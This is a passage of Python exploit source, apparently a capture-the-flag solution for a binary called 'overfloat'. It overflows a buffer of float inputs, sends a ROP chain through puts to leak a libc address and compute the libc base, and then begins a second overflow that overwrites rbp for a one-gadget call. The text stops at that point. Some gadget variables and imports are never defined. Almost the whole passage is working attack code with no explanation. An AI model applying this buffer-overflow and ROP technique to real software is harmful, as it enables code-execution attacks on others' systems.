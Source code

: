 ```python=


# Some helper functions to help with the float input
# These were made by qw3rty01
pf = lambda x: struct.pack('f', x)
uf = lambda x: struct.unpack('f', x)[0]



# Establish the target, and the libc file
target = process('./overfloat', env={"LD_PRELOAD":"./libc-2.35.so"})
# gdb.attach(target, '''
#     b *0x400A19
#     c
# ''')

libc = ELF('libc-2.35.so')

# Get a writable address to set rbp for one shot gadget
elf = ELF('./overfloat')
bss_section = elf.bss()


# A helper function to send input as float
def sendVal(x):
    v1 = x & ((2**32) - 1)
    v2 = x >> 32
    target.sendline(str(uf(p32(v1))))
    target.sendline(str(uf(p32(v2))))

# Fill up the space to return
# 48 + 8 bytes
for i in range(7):
    sendVal(0xdeadbeefdeadbeef)

# Send the rop chain to print libc address of puts
# then loop around to the start of main
sendVal(popRdi)
sendVal(putsGot)
sendVal(putsPlt)
sendVal(mainFunc)

# Send done so our code executes
target.sendline('done')

# Print out the target output
print(target.recvuntil('BON VOYAGE!\n'))

# Scan in, filter out the libc infoleak, calculate the base
leak = target.recv(6)
leak = u64(leak + b"\x00"*(8-len(leak)))
base = leak - libc.symbols['puts']

# libc base
print("libc base: " + hex(base))


# Fill up charBuf
for i in range(6):
    sendVal(0xdeadbeefdeadbeef)
# Overwrite rbp register with writable memory - bss section is always writable
sendVal(bss_section)

```